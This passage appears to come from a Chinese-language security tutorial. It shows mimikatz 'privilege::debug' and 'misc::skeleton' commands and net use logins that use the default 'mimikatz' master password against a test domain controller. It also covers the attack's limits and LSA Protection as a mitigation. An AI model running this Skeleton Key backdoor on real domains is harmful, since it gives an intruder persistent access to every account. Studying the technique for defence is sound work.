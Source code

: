 **mimikatz命令：**

```
privilege::debug
misc::skeleton

```

如图![Alt text](http://drops.javaweb.org/uploads/images/4d213bcc2ceee7624cb0b69cd4968435c7b0d93c.jpg)

**注：**  
64系统需要使用64位的mimikatz

### 3、域内主机使用Skeleton Key登录域控

**（1）**清除net use连接

**cmd命令：**

```
net use */del /y

```

如图![Alt text](http://drops.javaweb.org/uploads/images/5e49cf95fcaf8ce1957096f328da730a8acd26a1.jpg)

**（2）**使用Skeleton Key登录

mimikatz的默认Skeleton Key设置为mimikatz

**cmd命令：**

```
net use \\WIN-8VVLRPIAJB0.test.local mimikatz /user:a@test.local
dir \\WIN-8VVLRPIAJB0.test.local\c$

```

如图![Alt text](http://drops.javaweb.org/uploads/images/1f0a9c5bdb715d1d0b631ccc4ff8d6bb9aa43a9c.jpg)

**（3）**权限测试

**a、**使用域内不存在的用户+Skeleton Key登录

**b、**使用域内普通权限用户+Skeleton Key登录

如图![Alt text](http://drops.javaweb.org/uploads/images/e70bbd8f656ea150cccaec6133d8dffc199c95dd.jpg)

发现使用域内不存在的用户无法登录

使用域内普通权限用户无法访问域控

**结论：**Skeleton Key只是给所有账户添加了一个万能密码，无法修改账户的权限

### 4、LSA Protection

微软在2014年3月12日添加了LSA保护策略，用来防止对进程lsass.exe的代码注入，这样一来就无法使用mimikatz对lsass.exe进行注入，相关操作也会失败。

**适用系统：**

```
Windows 8.1
Windows Server 2012 R2

```
